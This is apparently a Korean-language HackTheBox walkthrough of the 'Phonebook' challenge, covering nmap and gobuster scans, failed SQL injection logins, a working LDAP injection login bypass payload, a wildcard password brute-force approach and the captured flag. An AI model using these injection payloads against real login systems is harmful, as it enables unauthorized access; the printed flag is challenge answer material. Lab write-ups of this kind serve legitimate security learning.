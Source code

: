 
# HackTheBox Walkthrough - Room: Phonebook

**Target IP**: 83.136.253.59:35443  
**Difficulty**: Easy/Medium  
**Objective**: Exploit LDAP Injection vulnerability to obtain credentials and capture the flag.

---

## 🧭 Initial Enumeration

### 🔍 nmap 스캔

```bash
nmap -sV -sC 83.136.253.59
```

→ 기본적인 서비스 및 버전 정보 확인.

### 🌐 gobuster 디렉토리 브루트포싱

```bash
gobuster dir -u http://83.136.253.59:35443/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

→ `/login` 경로 확인됨.

---

## 🔐 로그인 페이지 분석

로그인 페이지에 다음 문구가 있음:

> New (9.8.2020): You can now login using the workstation username and password! - Reese

→ 워크스테이션 사용자 이름/비밀번호로 로그인 가능하다는 의미. 그러나 계정 정보는 알 수 없음.

### ❌ SQL Injection 시도 (실패)

```text
id: ' or 1=1 --
pw: 1234
```

또는

```text
id: ' or 1=1 #
pw: 1234
```

→ 모두 실패.

---

## 💡 LDAP Injection 탐색

writeup 참고 결과 LDAP 사용 중이라는 정보 확인.

참고 자료: [Cobalt.io - Introduction to LDAP Injection](https://www.cobalt.io/blog/introduction-to-ldap-injection-attack)

### ✅ 로그인 성공한 페이로드

```text
id: *)(uid=*
pw: *
```

→ 모든 사용자 대상으로 검색. 로그인 성공.

---

## 🔍 내부 탐색 및 사용자 확인

검색 창을 통해 사용자의 정보 일부를 확인할 수 있음.

writeup에 따르면 `reese`의 패스워드를 찾아야 함.

---

## 🧪 LDAP Injection Brute-force (Password)

Python 스크립트를 통해 `reese`의 패스워드를 Brute-force:

### 🎯 접근 전략

- username: `reese`
- password: `H*` 로 시작 → 응답 존재
- 이후 `Ha*`, `Hb*`, ... 순차적으로 시도하여 완전한 패스워드 추론

---

## 🚀 exploit.py 사용 결과

```bash
python3 exploit.py
```

→ 결과:

```
password: HTB{d1rectory_h4xx0r_is_k00l}
```

🎉 플래그 획득 성공!

---

## 🧠 기술 요약

| 기술             | 설명                                                  |
|------------------|-------------------------------------------------------|
| nmap/gobuster     | 포트 및 디렉토리 탐색을 통해 공격 벡터 확인              |
| LDAP Injection    | SQL이 아닌 LDAP 쿼리 기반 인증 우회 시도                |
| 브루트 포싱       | 패스워드의 패턴을 이용한 증분 추측을 통해 로그인 정보 획득 |

---

## 🎯 최종 결과

- **플래그**: `HTB{d1rectory_h4xx0r_is_k00l}`
- **획득 방법**: LDAP Injection을 통한 인증 우회 및 Brute-force


